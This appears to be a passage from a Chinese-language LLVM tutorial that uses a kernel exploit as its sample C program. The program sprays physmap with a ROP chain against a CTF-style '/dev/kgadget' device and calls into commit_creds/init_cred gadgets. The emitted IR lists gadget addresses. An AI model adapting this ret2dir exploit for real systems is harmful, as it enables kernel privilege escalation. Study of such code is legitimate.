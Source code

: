 ```c
int main(){
    save_status();

    dev = open("/dev/kgadget", O_RDWR);
    if(dev < 0)     // failed to open key device, an unexpected error
        error_log("Cannot open device \"/dev/kgadget\"!");

    page_size = sysconf(_SC_PAGESIZE);      // the size of a page, namely 4096 bytes

    info_log("Spraying physmap......");

    map_spray[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    makeROP(map_spray[0]);

    for(int i=1; i<15000; i++){
        map_spray[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if(!map_spray[i])
            error_log("Mmap Failure!");
        memcpy(map_spray[i], map_spray[0], page_size);
    }

    guess = 0xffff888000000000 + 0x7000000;

    info_log("Ready to turn to kernel......");

    __asm__("mov r15, 0xdeadbeef;"
            "mov r14, 0xcafebabe;"
            "mov r13, 0xdeadbeef;"
            "mov r12, 0xcafebabe;"
            "mov r11, 0xdeadbeef;"
            "mov r10, 0xcafebabe;"
            "mov rbp, 0x12345678;"
            "mov rbx, 0x87654321;"
            "mov r9, poprsp_ret;"
            "mov r8, guess;"
            "mov rax, 0x10;"
            "mov rcx, 0x12345678;"
            "mov rdx, guess;"
            "mov rsi, 0x1bf52;"
            "mov rdi, dev;"
            "syscall;"
            );
    return 0;
}
```

用下面的命令可以生成.ll文件准备输入到LLVM中：``clang -emit-llvm -S firstLLVMtest.c -o firstLLVMtest.ll``

生成的.ll文件的前面一部分内容：
```
; ModuleID = 'firstLLVMtest.c'
source_filename = "firstLLVMtest.c"
target datalayout = "e-m:e-p270:32:32-p271:32:32-p272:64:64-i64:64-f80:128-n8:16:32:64-S128"
target triple = "x86_64-pc-linux-gnu"

@commit_creds = dso_local constant i64 -2129882400, align 8
@init_cred = dso_local constant i64 -2103003392, align 8
@swapgs_restore_regs_and_return_to_usermode = dso_local constant i64 -2118119477, align 8
@ret = dso_local constant i64 -2130705924, align 8
@poprdi_ret = dso_local constant i64 -2130131216, align 8
@poprsp_ret = dso_local constant i64 -2129361968, align 8
@add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = dso_local constant i64 -2130233346, align 8
```